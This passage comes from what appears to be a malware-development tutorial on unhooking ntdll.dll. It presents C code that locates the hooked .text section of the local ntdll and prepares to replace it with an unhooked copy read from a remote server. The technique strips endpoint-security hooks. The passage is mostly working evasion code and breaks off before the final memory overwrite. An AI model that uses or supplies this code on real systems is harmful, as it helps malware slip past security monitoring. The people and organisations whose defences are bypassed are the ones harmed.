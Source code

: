 ### Putting It All Together

Now that an unhooked version of `ntdll.dll` is in memory, the `ReplaceNtdllTxtSection` function is utilized to replace the text section of the hooked `ntdll.dll` with the newly unhooked one. The only modification required is to use the `pUnhookedNtdll` parameter, which represents the base address of the NTDLL module fetched using the `ReadNtdllFromServer` function detailed above.

```c
BOOL ReplaceNtdllTxtSection(IN PVOID pUnhookedNtdll) {

	PVOID			   pLocalNtdll 	   = (PVOID)FetchLocalNtdllBaseAddress();


	// getting the dos header
	PIMAGE_DOS_HEADER	pLocalDosHdr 	= (PIMAGE_DOS_HEADER)pLocalNtdll;
	if (pLocalDosHdr && pLocalDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
		return FALSE;

	// getting the nt headers
	PIMAGE_NT_HEADERS 	pLocalNtHdrs 	= (PIMAGE_NT_HEADERS)((PBYTE)pLocalNtdll + pLocalDosHdr->e_lfanew);
	if (pLocalNtHdrs->Signature != IMAGE_NT_SIGNATURE)
		return FALSE;


	PVOID     pLocalNtdllTxt    = NULL, // local hooked text section base address
	          pRemoteNtdllTxt   = NULL; // the unhooked text section base address
	SIZE_T    sNtdllTxtSize     = NULL; // the size of the text section


	// getting the text section
	PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pLocalNtHdrs);

	for (int i = 0; i < pLocalNtHdrs->FileHeader.NumberOfSections; i++) {

		// the same as if( strcmp(pSectionHeader[i].Name, ".text") == 0 )
		if ((*(ULONG*)pSectionHeader[i].Name | 0x20202020) == 'xet.') {

			pLocalNtdllTxt = (PVOID)((ULONG_PTR)pLocalNtdll + pSectionHeader[i].VirtualAddress);
			pRemoteNtdllTxt = (PVOID)((ULONG_PTR)pUnhookedNtdll + 1024);
			sNtdllTxtSize = pSectionHeader[i].Misc.VirtualSize;
			break;
		}
	}

//---------------------------------------------------------------------------------------------------------------------------

	// small check to verify that all the required information is retrieved
	if (!pLocalNtdllTxt || !pRemoteNtdllTxt || !sNtdllTxtSize)
		return FALSE;

	// small check to verify that 'pRemoteNtdllTxt' is really the base address of the text section
	if (*(ULONG*)pLocalNtdllTxt != *(ULONG*)pRemoteNtdllTxt) {
		// if not, then the read text section is also of offset 4096, so we add 3072 (because we added 1024 already)
		(ULONG_PTR)pRemoteNtdllTxt += 3072;
		// checking again
		if (*(ULONG*)pLocalNtdllTxt != *(ULONG*)pRemoteNtdllTxt)
			return FALSE;
	}


```